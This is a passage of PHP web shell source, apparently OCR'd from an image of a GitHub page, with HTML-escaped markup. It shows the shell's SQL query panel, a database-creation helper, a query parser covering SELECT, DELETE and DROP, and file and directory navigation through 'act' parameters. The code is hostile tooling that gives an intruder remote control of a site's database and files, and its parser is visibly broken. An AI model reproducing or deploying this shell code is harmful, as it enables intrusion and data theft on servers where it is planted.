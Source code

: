         echo "&lt;table border=0&gt;&lt;tr&gt;&lt;td&gt;&lt;form name=\"exsh_sqlquery\" method=POST&gt;&lt;b&gt;"; if (($sql_query) and (!$submit)) {echo "Do you really want to";} else {echo "SQL-Query";} echo ":&lt;/b&gt;&lt;br&gt;&lt;br&gt;&lt;textarea name=sql_query cols=100 rows=10&gt;".htmlspecialchars($sql_query)."&lt;/textarea&gt;&lt;br&gt;&lt;br&gt;&lt;input type=hidden name=act value=sql&gt;&lt;input type=hidden name=sql_act value=query&gt;&lt;input type=hidden name=sql_tbl value=\"".htmlspecialchars($sql_tbl)."\"&gt;&lt;input type=hidden name=submit value=\"1\"&gt;&lt;input type=hidden name=\"sql_goto\" value=\"".htmlspecialchars($sql_goto)."\"&gt;&lt;input type=submit name=sql_confirm value=\"Yes\"&gt; &lt;input type=submit value=\"No\"&gt;&lt;/form&gt;&lt;/td&gt;";
        if ($tbl_struct) {
          echo "&lt;td valign=\"top\"&gt;&lt;b&gt;Fields:&lt;/b&gt;&lt;br&gt;";
          foreach ($tbl_struct as $field) {$name = $field["Field"]; echo "+ &lt;a href=\"#\" onclick=\"document.exsh_sqlquery.sql_query.value+='`".$name."`';\"&gt;&lt;b&gt;".$name."&lt;/b&gt;&lt;/a&gt;&lt;br&gt;";}
          echo "&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;";
        }
      }
      if ($sql_query_result or (!$sql_confirm)) {$sql_query = $sql_last_query;}
    }
  }
  if (!function_exists("mysql_create_db")) {
    function mysql_create_db($db,$sock="") {
      $sql = "CREATE DATABASE `".addslashes($db)."`;";
      if ($sock) {return mysql_query($sql,$sock);}
      else {return mysql_query($sql);}
    }
  }
  if (!function_exists("mysql_query_parse")) {
    function mysql_query_parse($query) {
      $query = trim($query);
      $arr = explode (" ",$query);
      $types = array(
        "SELECT"=&gt;array(3,1),
        "SHOW"=&gt;array(2,1),
        "DELETE"=&gt;array(1),
        "DROP"=&gt;array(1)
      );
      $result = array();
      $op = strtoupper($arr[0]);
      if (is_array($types[$op])) {
        $result["propertions"] = $types[$op];
        $result["query"]  = $query;
        if ($types[$op] == 2) {
          foreach($arr as $k=&gt;$v) {
            if (strtoupper($v) == "LIMIT") {
              $result["limit"] = $arr[$k+1];
              $result["limit"] = explode(",",$result["limit"]);
              if (count($result["limit"]) == 1) {$result["limit"] = array(0,$result["limit"][0]);}
              unset($arr[$k],$arr[$k+1]);
            }
          }
        }
      }
      else {return FALSE;}
    }
  }
  if ($act == "gofile") {
    if (is_dir($f)) { $act = "ls"; $d = $f; }
    else { $act = "f"; $d = dirname($f); $f = basename($f); }
  }
  ## HEADERS ##
  @ob_start();
  @ob_implicit_flush(0);